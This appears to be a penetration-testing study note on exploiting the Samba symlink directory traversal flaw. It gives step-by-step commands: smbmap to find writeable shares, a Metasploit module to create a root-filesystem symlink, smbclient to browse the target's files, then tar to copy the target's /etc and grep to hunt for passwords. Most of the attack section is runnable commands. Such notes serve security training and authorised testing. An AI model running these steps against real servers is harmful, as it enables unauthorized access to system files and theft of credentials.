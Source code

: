 ### Samba Symlink Directory Traversal
- This vuln essentially allows an attacker to create a symbolic link to the root (/) partition from a writeable share ultimately allowing For read access to the entire file system outside of the share directory.
- Can be exploited using a modified "smbclient", but metasploit contains a module For exploitation as well.
- pre-requisites, samba server contains a writeable share and widelinks parameter in the smb.conf file is set with a value of "yes"

```
smbmap -H <target ip>
   // determine if you have write access to the shares
```

> after we have determined a writeable share is available

in metasploit:
```
	use auxiliary/admin/smb/samba_symlink_traversal
	set options
	set smbtarget <rootfs> // default
	run
```

// now we can access the share
```
smbclient \\\\<target ip>\\tmp -N
cd rootfs
```

> notice that, the directory rootfs is created in the writeable share
we can now, use **get** and **put** commands, to download/upload files into the share.


### useful command - TAR
- when conducting post-exploitation tasks using smbclient is the "tar" command.
- with tar command, we can create an archive of all files within a current directory, For local perusual later.

```
cd etc
tar c ../tmp/all_files.tar *
// the above will create a tar archive of the /etc/ directory on the target system to our local systems /tmp directory

ls -als all_files.tar
to list the copied files
```

- We can then extract, and start enumerating files For sensitive content, passwords, etc.

```
tar xf /tmp/all_files.tar
cd /tmp/rootfs
grep -r "password" * 2>&1 /dev/null
```

